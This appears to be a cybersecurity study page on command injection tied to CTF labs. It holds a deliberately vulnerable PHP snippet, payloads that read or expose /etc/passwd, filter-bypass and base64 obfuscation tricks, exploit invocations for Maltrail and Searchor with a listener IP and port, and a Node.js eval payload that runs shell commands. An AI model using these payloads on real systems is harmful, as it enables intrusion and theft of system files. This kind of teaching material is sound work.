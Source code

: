 # Command injection

[![oscommandinjection](../../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![command_injection](../../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![ignite](../../../../_badges/thm-p/ignite.svg)](https://tryhackme.com/room/ignite)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![commandinjections](../../../../_badges/htb/commandinjections.svg)](https://academy.hackthebox.com/course/preview/command-injections)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![php_command_injection](../../../../_badges/rootme/php_command_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)

<div class="row row-cols-lg-2"><div>

A command injection occurs when a developer uses the user input in system commands without proper sanitization/measures.

For instance, a PHP website on Linux might use `grep`, `sed`, or other utilities instead of PHP functions for some operations:

```php!
$search = $_GET['q'];
$res = system("grep \"$search\" content/");
echo "<pre>$res</pre>";
```

With the following payload for `q`: `" -V; cat /etc/passwd #`, the command executed will be as follows, allowing us to steal /etc/passwd

```bash!
grep "" -V; cat /etc/passwd # content/
```
</div><div>

There are two kinds of command injections

* **Regular/in-band**: same channel to attack and gather results
* **Blind/out-band**: different channels to attack and gather results
    * Using redirections/flags, create a URL-accessible output file

```bash!
[...] cat /etc/passwd > /var/www/html/output.txt [...]
```

<ul>

* Using commands such as `sleep` to perform a time-based attack

</ul>

```bash!
[...] true && sleep 5 [...]
```
</div></div>

<hr class="sep-both">

## Basic Overview

<div class="row row-cols-lg-2"><div>

Assuming we have a list of vulnerable elements such as forms that may be vulnerable, we can try common characters:

* `;` — `%3B` — run two commands
* `\n` — `%0A` — run two commands
* `&&` — `%26%26` — executed if the previous ones succeed
* `||` — `%7C%7C` — executed if the previous ones failed
* `&` — `%26` — run two commands <small>(background previous)</small>
* `|` — `%7C` — run two commands  <small>(pipe previous one)</small>
* <code>&#96;&#96;</code> — `%60%60` — execute a command in another command
* `$()` — `%24%28%29` — execute a command in another command

You might try automated tools such as [commix](https://github.com/commixproject/commix) <small>(4.2k ⭐)</small>.
</div><div>

Assuming you found a vulnerable parameter, and are trying to exploit it, one of the main issues is [URL encoding](/tools-and-frameworks/knowledge/encoding/index.md#url-encoding---) the payload.

Always try to inject bit by bit using a boolean-based approach.

➡️ See also: [cire](https://github.com/quentinra/blog.quentinra.dev/cybersecurity/red-team/s3.exploitation/vulns/injection/tools/cire/README.md) <small>(Manual simple testing)</small>.
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-lg-2"><div>

#### Character Filtering

[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)

By-pass **space** character filtering.

* Try using tabs (`%09`)
* Try using variables (`${IFS}`)
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

By-pass **slash** character filtering.

* Try using variables (`${PATH:0:1}`)
* Try using variables (`${HOME:0:1}`)
* Try using variables (`${PWD:0:1}`) -- best
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

➡️ See also: `printenv` or `env` to list exploitable variables.

#### Bypass using obfuscation

Remember that such payloads may contain filtered characters. See also tools such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```ps
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$ $(a="WhOaMi";printf %s "${a,,}")
$ # using base64
$ base64 <<< whoami
d2hvYW1pCg==
$ bash<<<$(base64 -d<<<d2hvYW1pCg==) # whoami
$ # using UTF-16 and base64
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
</div><div>

#### Command Filtering

[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)

Put pair of quotes/double quotes anywhere within the command

```ps
# available on Linux, Windows (PowerShell)
$ w'ho'ami ; w""hoam''i
```

* Put `\\` or `$@` anywhere within the command

```ps
# available on Linux
$ w\ho\am\i ; who$@ami
```

* Put `^` anywhere within the command

```ps
# available on Windows (CMD)
CMD> who^am^i
```

* Reverse commands

```ps
$ $(rev<<<'imaohw')
PS> iex "$('imaohw'[-1..-20] -join '')"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Mailtrail v0.53

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

[POC (python script)](https://github.com/spookier/Maltrail-v0.53-Exploit) <small>(0.03k ⭐)</small>.

```shell!
$ python3 exploit.py listener_ip listener_port URL
```

<br>

#### Searchor 2.4.2

[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)

[Poc (python script)](https://github.com/jonnyzar/POC-Searchor-2.4.2) <small>(0.01k ⭐)</small>.

```shell!
$ onectf request -u URL -X POST -d 'engine=Yahoo' -p query -i '<q>, exec(""))#'
```

You can execute python code inside `exec`.
</div><div>

#### Node.js 'eval' function

[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)

If the input is evaluated using eval, we can write some code  in it.

* Normal input: `5`
* Normal input wrapped: `(()=>{return 5})()`
* If it works, we can add some code in-between

```js!
(() => {
  try {
    return `Output: ${require('child_process').execSync('whoami').toString()}`
  } catch (error) {
    return `Error executing command: ${error}`
  }
})()
// without spaces
(()=>{try{return(`Output:${require('child_process').execSync('whoami').toString()}`)}catch(error){return(`Error:${error}`)}})()
```
</div></div>

<hr class="sep-both">

## Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* Avoid using uncontrolled input in system commands. Always validate and filter user input.

* Use web server engine functions instead of system functions

* Use a WAF or a similar tool
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Windows Slash (`$env:HOMEPATH[0]`)
</div><div>
</div></div>